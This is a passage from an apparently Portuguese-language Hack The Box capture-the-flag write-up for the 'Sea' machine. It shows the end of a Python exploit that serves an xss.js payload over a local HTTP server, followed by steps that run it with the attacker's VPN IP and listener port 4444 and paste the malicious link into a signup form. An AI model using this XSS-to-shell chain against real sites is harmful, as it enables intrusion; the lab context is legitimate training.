             print("\nstarting HTTP server to allow the access to xss.js")
            os.system("python3 -m http.server\n")
          except: print(data,"\n","//write this to a file")
        ```
        
    
2. Após isso foi executado o exploit:
    
    ![image.png](../assets/img/hackthebox/sea/image-113.png)
    
    1. `4444`  é a porta a qual será conectada.
    2. `10.10.14.248`  é o IP da máquina do atacante na VPN
    
3. O script solicita que seja aberta a porta que será utilizada:
    
    ![image.png](../assets/img/hackthebox/sea/image-114.png)
    

1. O link fornecido será colado no formulário de inscrição.
    
    